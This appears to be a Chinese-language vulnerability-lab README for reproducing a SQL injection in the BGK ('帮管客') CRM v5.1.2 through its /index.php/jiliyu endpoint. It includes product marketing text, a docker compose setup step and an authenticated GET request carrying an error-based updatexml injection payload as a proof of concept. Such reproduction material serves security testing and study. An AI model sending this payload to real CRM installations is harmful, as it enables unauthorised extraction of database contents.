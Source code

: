 # 帮管客 CRM jiliyu SQL注入漏洞

帮管客CRM客户管理系统基于先进的CRM营销理念设计，集客户档案、销售记录、业务往来于一身，以凝聚客户关系、提升资源价值为核心，将潜在客户变为现实客户、从而提升销售量、提高用户的满意度，并增加企业竞争力。帮管客CRM是适用于中小企业的通用型客户关系管理系统，融合了帮管客软件长期从事管理软件开发的丰富经验与先进技术，该系统采用领先的B/S(浏览器/服务器)操作方式，使得网络办公不受地域限制。在功能上注重实用、易用、安全、稳定。在性能方面也表现优异，使用普通PC服务器即可实现百人级别的并发应用。 帮管客CRM客户管理系统 采用基于WEB的企业计算，采用php+MySQL进行开发，性能稳定可靠。数据存取集中控制，避免了数据泄漏的可能。采用加密数据传递参数，保护系统数据安全。多级的权限控制，完善的密码验证与登录机制更加强了系统安全性。

帮管客CRM 客户管理系统/index.php/jiliyu 接口存在 sql 注入漏洞，攻击者可通过此漏洞获取数据库敏感信息。

产品官网

https://www.bgk100.com/

参考链接：

- 



## 漏洞环境

执行如下命令启动一个BGJCRM5-v5.1.2-web服务：

```
docker compose up 
```

服务启动后，可访问`http://your-ip:80/`将自动跳转到BGJCRM安装向导界面

![image-20240319145702866](./1.png)

## 漏洞复现

需要先登录下后台

![image-20240319145816127](./2.png)

之后发送url

`GET /index.php/jiliyu?keyword=1&page=1&pai=id&sou=soufast&timedsc=%E6%BF%80%E5%8A%B1%E8%AF%AD%E5%88%97%E8%A1%A8&xu=and%201=(updatexml(1,concat(0x7e,(select%20md5(123)),0x7e),1)) HTTP/1.1`

![image-20240319150246000](C:\Users\admin\Documents\GitHub\Vuldocker\帮管客CRM\帮管客 CRM jiliyu SQL注入漏洞\3.png)